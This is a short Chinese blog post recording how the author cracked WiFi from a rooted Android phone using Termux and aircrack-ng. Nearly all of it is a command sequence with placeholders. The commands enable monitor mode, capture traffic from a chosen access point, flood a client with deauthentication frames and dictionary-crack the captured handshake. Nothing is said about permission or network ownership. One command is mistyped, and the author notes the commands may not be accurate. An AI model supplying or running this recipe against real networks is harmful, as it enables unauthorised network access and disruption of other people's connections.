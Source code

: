 ```yaml
---
categories: [网络安全,WiFi,安卓,Termux,aircrack-ng]
date: 2022-7-18 14:00
title: 使用安卓手机破解 WiFi
---
```


## 起因

[这位大佬的博客](https://rainchan.win/2021/08/09/%E4%B8%80%E5%8A%A0wifi%E5%97%85%E6%8E%A2%E5%8A%9F%E8%83%BD%E8%A7%A3%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8)讲述了一个使用安卓手机抓取 WIFI 数据包的经历，我想用手里的*红米 K30 5G*与*小米 5*复现，于是有了这篇博文

以下内容均在*MIUI 12.5，安卓 10 的 红米 K30 5G*上完整复现，在此大概做个记录

*注意：执行以下操作需要手机获得 root 权限。*

## 正文

> `<>`表示需要根据实际情况更改的内容

```sh
pkg install wireless-tools iw tcpdump aircrack-ng ethtool pciutils -y # 有一些是不必要的，可以自行鉴别
# 进入 monitor 模式，抓取数据包并破解
# 此处的命令不一定准确，具体可以`aircrack-ng`为关键词自行搜索教程
tsu
airmon-ng check kill
airmon-ng start wlan0
airodump-ng wlan0
airodump -w <filenamePrefix> -c <channel> --bssid <bssid> wlan0 --ignore-negative-one
aireplay-ng -0 0 -a <bssid> -c <clientMac> --ignore-negative-one # 有发送数据包的输出，但被攻击端并未断开连接
aircrack-ng <filenamePrefix>-<xx>.cap -w <dictionaryPath>
 ```

```sh
# 退出
airmon-ng stop wlan0
```